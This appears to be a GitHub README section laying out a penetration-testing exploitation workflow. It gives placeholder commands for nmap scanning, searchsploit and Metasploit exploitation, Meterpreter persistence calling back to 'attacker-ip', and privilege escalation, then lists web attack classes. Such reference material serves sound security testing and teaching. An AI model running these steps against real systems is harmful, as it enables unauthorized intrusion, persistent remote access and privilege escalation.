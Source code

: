 ## 📝 Exploitation Methodology

### 1. Target Identification and Enumeration
```bash
# Network discovery
nmap -sS -A -T4 target-network/24
nmap --script vuln target-ip

# Service enumeration
nmap -sV -sC -p- target-ip
enum4linux target-ip
```

### 2. Vulnerability Research and Exploit Selection
```bash
# Search for exploits
searchsploit service-name version
msfconsole -q -x "search platform:linux type:exploit"

# CVE database lookup
nmap --script vulners target-ip
```

### 3. Exploit Development and Customization
```bash
# Metasploit exploitation
msfconsole
use exploit/linux/http/service_exploit
set RHOSTS target-ip
set LHOST attacker-ip
exploit
```

### 4. Post-Exploitation Activities
```bash
# Establish persistence
meterpreter > run persistence -S -U -i 10 -p 4444 -r attacker-ip

# Privilege escalation
meterpreter > getsystem
meterpreter > run post/multi/recon/local_exploit_suggester
```

## 🎯 Common Attack Vectors

### Web Application Attacks
- **SQL Injection**: Database manipulation and data extraction
- **Cross-Site Scripting**: Client-side code execution
- **Command Injection**: Operating system command execution
- **File Inclusion**: Local and remote file inclusion attacks
- **Deserialization**: Object deserialization vulnerabilities
